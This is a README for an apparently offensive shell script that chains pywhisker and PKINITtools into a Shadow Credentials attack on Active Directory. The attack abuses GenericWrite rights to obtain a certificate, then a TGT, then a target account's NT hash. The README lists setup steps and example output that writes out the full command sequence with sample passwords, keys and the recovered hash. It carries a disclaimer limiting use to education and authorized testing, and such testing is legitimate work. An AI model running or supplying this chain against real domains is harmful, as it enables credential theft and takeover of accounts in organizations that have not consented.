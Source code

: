 ## Dependancies
1. Requires pywhisker to be installed with pipx `pipx install git+https://github.com/ShutdownRepo/pywhisker.git`
2. Requires gettgtpkinit.py and getnthash.py from https://github.com/dirkjanm/PKINITtools/tree/master. I recommend cloning the repo and setting the tools as static variables in the script. I set mine like this.
```
# Full paths to gettgtpkinit.py and getnthash.py
GETTGT_PY="/home/kali/Transfers/PKINITtools/gettgtpkinit.py"
GETNTHASH_PY="/home/kali/Transfers/PKINITtools/getnthash.py"
```
3.Requires the necessary modules needed to run gettgtpkinit.py and getnthash.py. These are typically already satisfied in the latest release of Kali Linux. For other operating systems, please consult requirements.txt on the PKINITtools repo.

## Usage
This script combines pywhisker,  gettgtpkinit.py and getnthash.py to exploit GenericWrite Active Directory privilege set over a Domain User or Computer Object(machine account), requires ADCS to be properly configured on the domain controller.
Pywhisker is used to obtain a certificate for the targeted user, gettgtpkinit.py is used to obtain a TGT using the previously obtained certificate and finally getnthash.py is used to extract the NT hash from the TGT.

## Example
```
$ ./GenericWrite_ADCS.sh contoso.local p.thompson 'Password123!' j.kelly 10.129.86.37
[*] Starting attack for: j.kelly@contoso.local
[*] Requesting certificate with pywhisker...
    pywhisker -d "contoso.local" -u "p.thompson" -p "Password123!" --target "j.kelly" --action 'add' --dc-ip "10.129.86.37" > pywhisker_output.txt
[+] PFX file: 6IeF2D54.pfx
[+] PFX password: HWZMazba3gNZljp86FVN
[*] Requesting TGT with the certificate 6IeF2D54.pfx...
    python3 "/home/kali/Transfers/PKINITtools/gettgtpkinit.py" -dc-ip "10.129.86.37" -cert-pfx "6IeF2D54.pfx" -pfx-pass "HWZMazba3gNZljp86FVN" "contoso.local/j.kelly" ccache_j.kelly > gettgt_output.txt 2>&1
[+] AES key: aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d
[*] Extracting NT hash from the ticket using the AES key...
    python3 "/home/kali/Transfers/PKINITtools/getnthash.py" "contoso.local/j.kelly" -key "aa93036d089ebfb981a756c009c4440174c2f2d16e20d86973d9a81ac5de1d7d" -dc-ip "10.129.86.37"
[*] Recovered NT Hash: 22151d74ba3de9317892cba1f9393a37
```

## Disclaimer
This script is an automation wrapper for existing tools and is intended for educational and authorized testing purposes only. **Full credit goes to the original authors of these tools**. The author of this script is not responsible for any misuse or unauthorized application of this script.
